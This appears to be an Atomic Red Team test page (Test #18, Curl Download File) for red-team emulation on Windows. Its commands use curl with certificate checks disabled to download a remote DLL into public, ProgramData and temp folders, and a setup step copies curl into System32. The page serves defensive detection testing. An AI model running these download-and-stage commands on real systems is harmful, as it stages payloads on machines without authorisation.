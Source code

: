

<br/>
<br/>

## Atomic Test #18 - Curl Download File
The following Atomic utilizes native curl.exe, or downloads it if not installed, to download a remote DLL and output to a number of directories to simulate malicious behavior.
Expected output will include whether the file downloaded successfully or not.

**Supported Platforms:** Windows


**auto_generated_guid:** 2b080b99-0deb-4d51-af0f-833d37c4ca6a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_download | File to download | string | https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -k #{file_download} -o c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} --output c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} -o c:\programdata\allthethingsx64.dll
#{curl_path} -k #{file_download} -o %Temp%\allthethingsx64.dll
```

#### Cleanup Commands:
```cmd
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\programdata\allthethingsx64.dll >nul 2>&1
del %Temp%\allthethingsx64.dll >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-7.79.1-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
```
